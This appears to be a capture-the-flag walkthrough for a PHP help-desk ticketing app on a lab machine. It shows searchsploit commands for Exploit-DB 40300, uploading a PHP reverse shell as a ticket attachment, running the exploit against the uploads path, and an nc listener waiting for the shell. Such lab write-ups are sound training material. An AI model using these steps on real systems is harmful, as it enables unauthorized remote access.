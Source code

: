 Can view the exploit script with searchsploit. 

```
searchsploit -x exploits/php/webapps/40300.py
```

![[Pasted image 20250426153915.png]]

Back to browser and submit a ticket 

![[Pasted image 20250426154056.png]]

And there's an attachments option. 

Upload Pentestmonkey's php-reverse-shell.php

```
cp /usr/share/laudanum/php/php-reverse-shell.php .
```

With Kali IP and port 

![[Pasted image 20250426154312.png]]

After upload we get file not allowed 

![[Pasted image 20250426154412.png]]

Author of exploit says that this gets uploaded anyways. 

Now bringing the exploit code to cwd 

```
searchsploit -m exploits/php/webapps/40300.py
```

![[Pasted image 20250426154550.png]]

Figure out the location of the uploads directory by uploading a legit ticket. 

![[Pasted image 20250426154806.png]]
- this doesn't tell us anything :/

Try to get the upload directory by poking through the GitHub. 

![[Pasted image 20250426155101.png]]

Looks like file path is `/uploads/tickets`

Now trying the exploit. 

```
python3 40300.py http://10.10.10.121/support/uploads/tickets php-reverse-shell.php
```

Set up nc listener 

```
nc -lvnp 9001
```
